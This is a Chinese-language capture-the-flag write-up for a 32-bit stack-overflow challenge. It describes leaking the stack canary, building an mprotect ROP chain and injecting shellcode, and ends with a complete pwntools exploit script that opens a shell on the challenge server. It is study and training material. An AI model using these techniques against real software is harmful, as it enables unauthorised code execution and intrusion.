




#### 出这道题的人大概是川普的粉丝

### 关键词：带出cookie，mprotect，rop
### 分析
####先用IDA32反编译，看到main函数调用了stackoverflow()，进入stackoverflow()

#### 1. 观察到，一共需要我们输入两次，第一次是将名字输入v0的地址处，第二次是将信息输入到s地址处。其中，第一次输入名字后，会将它再输出，因为输出字符串所以遇到“\x00”会停下。而Cookie的最低bytes是0，按照小端法，低位在低地址，我们的输入会先覆盖“\x00”。将"\x00"覆盖为其它值，输出便会将cookie的其它位带出，cookie就成功绕过了
#### 2. 绕过cookie后, 想办法注入shellcode，gdb检查内存空间的权限，发现并没有rwx段能够执行代码。

#### 但是，在反编译结果中，发现了mprotect函数，可以不必泄露libc就使用它。

#### checksec发现PIE没有打开，因此可以直接使用IDA，mprotect地址。

#### 3. 在自己的溢出中构造ROP链，分三步：
* mprotect 开启一段内存的rwx权限
* 调用get_line 在此段注入shellcode
* 跳到此段执行
##### 发现，0x08048CBB指向一个pop,pop,pop,ret 代码段(可以弹出三个参数，执行后面地址所指向的函数)，可以用来帮助我们构造rop。
##### rop链的布局如下(从stackoverflow()返回地址开始)：
mprotect地址 + 0x08048CBB + mprotect参数1 + mprotect参数2 + mprotect参数3 + getsline地址 + shellcode注入地址 + shellcode注入地址

### 脚本
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
#
# Copyright © 2018 vam <jpwan21@gmail.com>

from pwn import *
context.log_level="debug"
pwn_file="./level5.0-oneshot"
elf=ELF(pwn_file)
#libc=ELF("./libc.so.6")
#heap_add=0
#stack_add=0
if len(sys.argv)==1:
    r=process(pwn_file)
    pid=r.pid
else:
    r=remote("pwn.sixstars.team",22095)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    #log.debug("stack add:0x%x"%stack_add)
    #log.debug("heap add:0x%x"%heap_add)
    #log.debug("libc add:0x%x"%libc.add)
    pause()

payload = 'a'*0x20 + chr(0x66)

r.sendlineafter("What's your name?", payload)

cookie = chr(0) + r.recv()[0x21:0x24]
print cookie.encode('hex')

mprotect_pos =0x0806DE50
inject_pos = 0x8048000
run_pos = inject_pos + 0x500

ebx_val = inject_pos
ecx_val = 0x1000
edx_val = 7

getsline_pos = 0x0804887C
next_pos = 0x08048CBB

payload2 = 'a'*0x40 + cookie + 'a'*8 + 'a'*4
payload2 += p32(mprotect_pos) + p32(next_pos) + p32(ebx_val)+ p32(ecx_val) + p32(edx_val)
payload2 += p32(getsline_pos) + p32(run_pos) + p32(run_pos)

r.sendline(payload2)
sh = asm(shellcraft.sh())
r.sendline(sh)
r.interactive()
```